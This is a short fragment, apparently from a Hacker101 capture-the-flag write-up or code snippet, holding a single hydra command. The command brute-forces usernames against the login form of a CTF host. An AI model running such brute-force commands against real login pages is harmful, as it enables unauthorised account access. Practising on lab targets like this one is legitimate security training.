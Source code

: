 hydra -t 64 -L /usr/share/wordlists/usernames.txt -p test d13572da69b34e875361ff1be3c70f43.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
